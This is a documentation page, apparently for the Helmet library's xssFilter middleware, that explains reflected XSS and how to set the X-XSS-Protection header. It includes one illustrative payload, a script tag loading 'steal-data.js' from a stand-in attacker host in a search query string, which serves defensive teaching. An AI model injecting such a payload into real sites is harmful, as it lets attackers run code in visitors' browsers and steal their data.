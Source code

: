 ```yaml
---
layout: page
title: XSS Filter
permalink: /docs/xss-filter/
---
```

In short: the `xssFilter` middleware sets the `X-XSS-Protection` header to prevent reflected XSS attacks.

The attack
----------

Cross-site scripting, abbreviated to "XSS", is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim's browser. Once a hacker has done that, there's a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

XSS is a multifaceted beast and we won't learn everything about it here. The main takeaway: if someone can run JavaScript on your page, they can attack your users and do a lot of bad things. We want to prevent it!

One kind of XSS is called "Reflected XSS". Typically, it works by setting a query string which is put directly into the HTML. Putting JavaScript in the query string can let an attacker execute their JavaScript just by giving someone a malicious query string.

For example, let's say you run a search engine called Goober. Every time you do a search, it displays your search terms right above your results. For example, let's say we've searched for "javascript jokes".

When you do a search, your search terms also appear in your query string. The full URL might look something like this:

```
https://goober.example.com/search?query=javascript+jokes
```

The search results might look like the screenshot below. Notice how the text appears right on the page:

![Screenshot of normal Goober search](xss-filter-ok.png)

What if we could search for something like `<script src="http://evil.example.com/steal-data.js"></script>`? That URL would look like this:

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

And here's how it would appear on your page:

![Screenshot of malicious Goober search](xss-filter-malicious.png)

Suddenly, a malicious JavaScript file was executed just because you visited a URL! That's not good.

Read more:

- [Guide to understanding XSS](http://www.securesolutions.no/xss-explained/)
- [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/XSS)
- [What is Reflected XSS?](http://security.stackexchange.com/q/65142)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

The header
----------

To be very clear: *this header does not protect you from XSS attacks much*. It protects against a very particular kind of XSS, and other mitigation measures are far better. This header provides a quick win and basic protection, but this header does not save you from XSS attacks.

It's relatively easy for browsers to detect simple reflected XSS. In the example above, browsers could choose not to execute the JavaScript inside a `<script>` tag if it matches what's in the query string. Some browsers do this detection by default, but some don't. To make these browsers check for this simple case, you can set the `X-XSS-Protection` header to `1; mode=block`.

This tells browsers to detect and block reflected XSS.

This header causes some *even worse* security vulnerabilities in older versions of Internet Explorer, so it's wise to disable it there.

- ["Controlling the XSS Filter" on MSDN](http://blogs.msdn.com/b/ieinternals/archive/2011/01/31/controlling-the-internet-explorer-xss-filter-with-the-x-xss-protection-http-header.aspx)
- ["IE's XSS Filter Creates XSS Vulnerabilities"](http://hackademix.net/2009/11/21/ies-xss-filter-creates-xss-vulnerabilities/)
- ["XSS Filter Script Handling Vulnerability - CVE-2009-4074"](https://technet.microsoft.com/library/security/ms10-002#XSS%20Filter%20Script%20Handling%20Vulnerability%20-%20CVE-2009-4074)

The code
--------

Helmet's `xssFilter` is a relatively simple middleware that will set the `X-XSS-Protection` header. On most browsers, it will set it to `1; mode=block`. On old Internet Explorer versions, it will set it to `0` to disable it.

You can use this module as part of Helmet:

```javascript
// Make sure you run "npm install helmet" to get the Helmet package.
const helmet = require('helmet')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(helmet.xssFilter())
```

You can also use it as a standalone module:

```javascript
// Make sure you run "npm install x-xss-protection" to get this package.
const xssFilter = require('x-xss-protection')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(xssFilter())
```

To force the header to be set to `1; mode=block` on all versions of IE, add the option:

```javascript
app.use(xssFilter({ setOnOldIE: true }))
// This has some security problems for old IE!
```

You can also optionally configure a report URI, though the flag is [specific to Chrome-based browsers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection). This option will report the violation to the specified URI:

```javascript
app.use(xssFilter({ reportUri: '/report-xss-violation' }))
```

To remove `mode=block` from the header, which isn't recommended, set the `mode` option to `null`:

```javascript
app.use(xssFilter({ mode: null }))
```

This header is included in the default Helmet bundle.
